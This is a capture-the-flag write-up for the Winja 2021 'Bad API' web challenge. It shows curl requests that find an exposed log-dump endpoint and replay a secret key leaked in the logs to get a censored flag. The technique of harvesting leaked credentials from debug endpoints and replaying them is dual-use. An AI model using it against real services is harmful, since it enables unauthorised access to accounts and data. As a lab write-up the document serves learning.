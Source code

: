 # Winja 2021 — Bad API — writeup

The challenge is a web page, with a username field.

http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz

After trying with “admin”, we receive the message:

> “Secret key provided is invalid. Please try again.”

Checking the Network tab on Chrome DevTools, it’s:

> POST https://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

username: admin
secret_key:
Mechanic: Somebody set up us the bomb. Operator: Main screen turn on.

So lets find this secret key, checking the console we can see that there is a recurring call to the endpoint

> curl -X GET http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/api/v1/dump_status

The response to this request is:

“Log dump not ready”

after a few seconds it returned the message:

“Dump ready at endpoint (v1)”

So now we will try to find this dump, analyzing the status url we will try to do a get at the endpoint

> curl -X GET http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/api/v1/dump

Analysing the response we can see some interesting information leaked:

…
views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘SECRET’), (‘secret_key’, ‘S’)])
[views.py:56 — process_form()] Expected key ALLYOURBASEAREBELONGTOUS not recieved. Redirecting to 404…
[views.py:43 — process_form()] Request recieved:
[views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘’), (‘secret_key’, ‘SECRET’)])
[views.py:43 — process_form()] Request recieved:
[views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘admin’), (‘secret_key’, ‘\r\nMechanic: Somebody set up us the bomb. Operator: Main screen turn on.\r\n ‘)])
[views.py:56 — process_form()] Expected key (censored) not recieved. Redirecting to 404…
…

As we can see there are some logs related to secret_key and some secret tips that we can try to use, like ALLYOURBASEAREBELONGTOUS

> curl -X POST -F “username=admin” -F “secret_key=ALLYOURBASEAREBELONGTOUS” http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

We got a redirect, so it’s a wrong secret_key, but we have another secret_key on the first log, (censored)

> curl -X POST -F “username=admin” -F “secret_key=(censored)” http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

Now we got an HTML response, with the flag!!

...
</form>
> flag\{(censored)\}
</div>
...

Keep Hacking!

#KapiSec
